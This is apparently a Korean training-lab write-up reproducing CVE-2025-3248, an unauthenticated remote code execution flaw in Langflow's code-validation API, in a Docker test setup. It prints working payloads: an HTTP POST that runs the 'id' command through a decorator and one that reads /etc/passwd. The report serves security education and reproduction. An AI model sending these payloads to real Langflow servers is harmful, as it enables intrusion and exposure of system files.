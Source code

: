 # Langflow validate/code API Pre-Auth 원격 코드 실행 (CVE-2025-3248) 

> 화이트햇 스쿨 3기 - [장인영 (@inyeongjang)](https://github.com/inyeongjang)

<br/>

## 개요

**Langflow**

Langflow는 대규모 언어 모델(LLM)과 다양한 데이터 소스를 활용하여 AI 애플리케이션을 시각적으로 설계하고 구축할 수 있는 low-code 플랫폼입니다. Pyhton 기반으로 개발되었으며, 특정 모델, API, 데이터베이스에 구애받지 않고 유연하게 사용할 수 있습니다. 

**CVE-2025-3248**

Langflow 1.3.0 버전 미만에는, 인증 없이 원격 코드 실행(RCE)이 가능한 심각한 취약점 CVE-2025-3248이 존재합니다. 

해당 취약점은 LLM이 생성한 코드를 검증하는 API `/api/v1/validate/code`에서 발생합니다. 

사용자가 제출한 Python 코드를 ast 모듈로 파싱하고, exec를 통해 함수 정의를 실행하는데, Python에서는 함수 정의 시 데코레이터(decorator) 와 기본 인자(default arguments) 도 함께 실행됩니다. 이를 악용하면 악성 코드를 삽입할 수 있으며, 결과적으로 공격자가 서버 사용자 권한으로 임의의 코드를 실행할 수 있게 됩니다. 

본 보고서에서는 Docker 기반으로 CVE-2025-3248을 검증하는 환경을 구축하고 실제 공격 과정을 재현합니다. 

<br/>

## 환경 구축 (Environment Setup)

1. 취약한 Langflow 1.2.0 버전을 Docker로 실행합니다.

   ```
   docker compose up -d
   ```
   
2. 서버가 시작되면, 아래 주소로 웹 인터페이스에 접속할 수 있습니다.

   ```
   http://your-ip:7860 
   ```
   ![Langflow 실행 화면](./images/1.png)

4. 기본 로그인 계정으로 로그인합니다.

   아이디: `administrator`

   비밀번호: `vulhub`

   ![Langflow 실행 화면](./images/2.png)

<br/>

## 취약점 재현 (Vulnerability Reproduction)

프록시 도구를 이용해 `/api/v1/validate/code` 엔드포인트에 악성 Python 함수 정의를 포함한 POST 요청을 전송합니다. 

다음은 서버에서 id 명령어를 실행하는 공격 페이로드입니다. 

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

요청이 성공하면, 서버 측에서 id 명령이 실행되고 결과가 노출됩니다. 이러한 방식으로 임의 명령어 실행이 가능함을 확인할 수 있습니다. 

![실행 결과 화면](./images/3.png)

**추가 공격 예시**

다음은 서버의 /etc/passwd 파일 내용을 읽어 메시지로 출력하는 페이로드입니다. 

```
{
  "code": "@exec(\"raise Exception(open('/etc/passwd').read())\")\ndef foo():\n  pass"
}
```

![실행 결과 화면](./images/4.png)

<br/>

## 참고 자료 (References) 

https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/

https://github.com/langflow-ai/langflow/releases/tag/1.3.0
langflow-ai/langflow#6911

https://wikidocs.net/book/16986 

https://github.com/vulhub/vulhub/tree/master/langflow/CVE-2025-3248

https://hackyboiz.github.io/2025/04/13/mungsul/2025-04-12/


